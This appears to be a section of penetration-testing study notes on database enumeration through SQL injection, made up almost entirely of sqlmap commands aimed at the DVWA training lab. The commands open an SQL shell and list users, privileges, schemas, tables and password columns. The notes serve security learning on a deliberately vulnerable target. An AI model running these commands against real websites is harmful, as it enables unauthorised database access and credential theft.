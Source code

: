 # 02 - Database Enumeration

Search Tag(s): #sql-injection #sqlmap #enumeration-and-discovery #dvwa

## 2.1 - Manual

- Interactive `--sql-shell` prompt to perform SQL statement queries manually.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --sql-shell

sql-shell> SELECT @@VERSION

sql-shell> SELECT table_name FROM information_schema.tables

sql-shell> SELECT column_name FROM information_schema.columns

sql-shell> SELECT USER()

sql-shell> SELECT DATABASE()

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```

## 2.2 - Automated Enumeration

- Banner grab DBMS backend.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -b
```

- Fingerprint the DBMS server extensively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -f
```

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --current-user --is-dba
```

- Enumerate user database accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --users
```

- Enumerate privileges

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --privileges -U CU
```

- Enumerate roles.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --roles -U CU
```

- Enumerate database schema.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --schema
```

- Enumerate current database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --current-db
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --schema --exclude-sysdbs
```

- Enumerate available databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --dbs
```

#### 2.2.2 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --search -D dvwa -C user,pass,username,password
```

- Count number of tables.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -D dvwa --tables --count
```

- Retrieve relation (tables).

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -D dvwa --tables
```

#### 2.2.3 - Columns Enumeration

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent -D dvwa -T users --columns
```

#### 2.2.4 - SQL Comments

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>; security=low" --random-agent --comments
```